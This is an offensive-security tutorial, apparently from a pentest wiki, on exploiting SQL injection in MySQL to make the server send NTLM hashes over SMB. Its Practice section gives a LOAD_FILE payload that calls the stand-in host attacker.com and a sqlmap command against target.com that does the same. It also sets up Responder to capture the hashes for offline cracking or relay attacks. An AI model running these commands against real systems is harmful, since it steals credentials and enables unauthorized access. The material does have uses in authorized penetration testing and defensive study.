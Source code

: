 ```yaml
---
title: UNC Path NTLM Hash Stealing in MySQL
description: Learn how to exploit UNC Path injection in MySQL to steal NTLM hashes
  for unauthorized access.
keywords:
- UNC Path injection
- NTLM hash stealing
- MySQL exploitation
- SMB authentication
- sqlmap
- Responder
- network security vulnerabilities
- SQL injection
---
```


# UNC Path - NTLM Hash Stealing

## Context

This article explains how to exploit UNC Path injection in a MySQL environment to steal NTLM hashes. It assumes knowledge of UNC paths, NTLM relay attacks, hash leakage, network authentication, and MySQL Out Of Band Injection techniques. The objective is to teach the method of exploiting SQL injection vulnerabilities to capture sensitive NTLM hashes for potential offline cracking or relay attacks.

## Theory

### UNC Path Injection in MySQL

UNC Path injection is a method that involves manipulating SQL queries to include UNC paths. MySQL can be tricked into making Server Message Block (SMB) requests to an attacker-controlled server, enabling potential data interception.

- **Definition**: UNC Path injection involves the inclusion of a Universal Naming Convention (UNC) path within SQL queries, redirecting operations to remote servers.
- **Vulnerability Model**: MySQL, when improperly configured, can execute SMB requests to UNC paths specified in SQL queries.

### NTLM Hash Stealing via UNC Path

The process of NTLM hash stealing through UNC Path injection leverages a protocol weakness in NTLM authentication. This method captures hashes sent over SMB, often facilitating unauthorized access.

- **Attack Sequence**: By injecting a UNC path into a SQL query, an attacker can trigger SMB authentication attempts to an attack-controlled server.
- **Protocol Weakness**: NTLM authentication, when leveraged over SMB, transmits hashes which can be intercepted by attackers.

## Practice

### UNC Path Injection for NTLM Hash Stealing

This method focuses on manually identifying and exploiting SQL injection points to capture NTLM hashes.

- Identify an SQL injection point within the MySQL application.
- Execute the following command to force the database server to access a remote SMB server controlled by the attacker:

    ```bash
    SELECT LOAD_FILE('\\\\attacker.com\\share');
    ```

- Set up an SMB server to capture NTLM hashes using the Responder tool:
  
    ```bash
    Responder -I eth0
    ```

- Monitor your setup for incoming NTLM authentication requests, indicating that the hashes are being intercepted.
  
**Result**: Successful injection allows capture of NTLM hashes, which can be cracked offline or used in relay attacks.

### Automated NTLM Hash Capture

This technique employs automation tools to simplify the process of exploitation and hash capture.

- Use `sqlmap` to automate the injection of the UNC path:
  
    ```bash
    sqlmap -u 'http://target.com/vuln.php?id=1' --file-read='\\\\attacker.com\\share'
    ```

- Set up Responder to automatically respond to SMB requests and capture hashes:
  
    ```bash
    Responder -I eth0
    ```

- With this automated setup, NTLM hashes are captured efficiently for further analysis.

**Result**: This automated process leads to efficient capturing of NTLM hashes, facilitating further exploitation avenues.

## Tools

- **Responder**: A tool used for capturing NTLM hashes by setting up a rogue SMB server.
- **sqlmap**: An automation tool designed for the identification and exploitation of SQL injection vulnerabilities, capable of UNC path injection.